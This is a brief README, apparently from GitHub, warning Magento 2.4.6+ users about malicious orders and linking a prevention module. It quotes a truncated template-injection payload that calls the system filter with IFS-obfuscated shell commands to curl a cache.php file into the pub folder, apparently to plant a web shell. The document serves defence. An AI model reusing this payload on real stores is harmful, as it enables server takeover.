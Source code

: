 # Magento-issue

# 1. When applying patches to Magento 2.4.6 or later versions, you might encounter the following issue in orders:

## Issue :- {{var this.getTemp lateFil ter().filter(firstname)}} {{var this.getTemp lateFil ter().add AfterFil terCallb ack(system).Filter(cd${IFS%??}pub;curl${IFS%??}-o${IFS%??}cache.php${IFS%

### solution:- To resolve this issue, you can use the following module which addresses this specific problem:
* Module link : https://github.com/DeployEcommerce/module-trojan-order-prevent
